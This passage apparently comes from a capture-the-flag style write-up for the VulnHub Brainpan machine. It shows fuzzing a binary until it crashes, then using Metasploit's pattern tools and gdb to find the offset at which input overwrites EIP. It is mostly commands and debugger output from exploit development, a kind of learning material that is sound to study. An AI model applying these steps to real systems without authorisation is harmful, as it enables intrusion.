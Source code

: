 ```
    exit;
  fi
done;
```
and the output,
```
root@attacker-machine:~# ./stdin-fuzz.sh validate
[!] Segmentation Fault Successful! (112) bytes.
root@attacker-machine:~#
```
The length of `112` bytes crashed our program, but we probably need (at least 4) more bytes to overwrite EIP. To find out how many extra bytes we need, we will use `create_pattern.rb` module from the Metasploit Framework as so,
```
/infose/exploitation/metasploit-framework/tools/exploit/pattern_create.rb -l 144 # added 32 bytes
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7
```
Start `validate` with the GNU Debugger, `gdb` as so,
```
root@attacker-machine:~# gdb validate 
Reading symbols from validate...done.
gdb-peda$ run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7
Starting program: /root/Penetration Testing/VulnHUB/Brainpan/files/validate Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0xffffd1b8 ("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7")
EBX: 0x41366441 ('Ad6A')
ECX: 0xffffd540 ("5Ae6Ae7")
EDX: 0xffffd241 ("5Ae6Ae7")
ESI: 0x2 
EDI: 0xf7fbd000 --> 0x1b2db0 
EBP: 0x64413764 ('d7Ad')
ESP: 0xffffd230 ("Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7")
EIP: 0x39644138 ('8Ad9')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x39644138
[------------------------------------stack-------------------------------------]
0000| 0xffffd230 ("Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7")
0004| 0xffffd234 ("e1Ae2Ae3Ae4Ae5Ae6Ae7")
0008| 0xffffd238 ("2Ae3Ae4Ae5Ae6Ae7")
0012| 0xffffd23c ("Ae4Ae5Ae6Ae7")
0016| 0xffffd240 ("e5Ae6Ae7")
0020| 0xffffd244 ("6Ae7")
0024| 0xffffd248 --> 0x8048500 (<validate+76>:	call   0x8c048503)
0028| 0xffffd24c --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x39644138 in ?? ()
gdb-peda$ quit
root@attacker-machine:~#  /infosec/exploitation/metasploit-framework/tools/exploit/pattern_offset.rb -q 39644138
[*] Exact match at offset 116
root@attacker-machine:~#  
```